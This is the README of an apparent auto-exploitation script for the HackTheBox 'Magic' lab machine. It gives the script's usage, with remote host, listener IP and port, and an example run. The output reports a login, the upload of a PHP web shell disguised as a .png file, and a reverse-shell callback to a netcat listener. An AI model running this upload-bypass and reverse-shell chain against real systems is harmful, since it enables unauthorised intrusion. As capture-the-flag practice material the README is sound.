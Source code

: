 # Magic Box Auto Exploitation Script

This script exploit Auto Hack the Magic Box on HacktheBox using python as Programing language.

## Help Menu 

```
$ ./exploit.py -h
usage: exploit.py [-h] -r RHOST -l LHOST -p LPORT

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        Remote HTTP IP
  -l LHOST, --lhost LHOST
                        Local Netcat IP
  -p LPORT, --lport LPORT
                        Local Netcat Port
```


## Example of use

```
 $ ./exploit.py -r 10.10.10.185 -l 10.10.xx.xx -p 4443

[+] Login Successfully
[+] Shell yndLRknzSTRlTyJh.php.png UPloaded Successfully.
[*] Check your NetCat

```

## References 

https://digital-forensics.sans.org/media/hex_file_and_regex_cheat_sheet.pdf

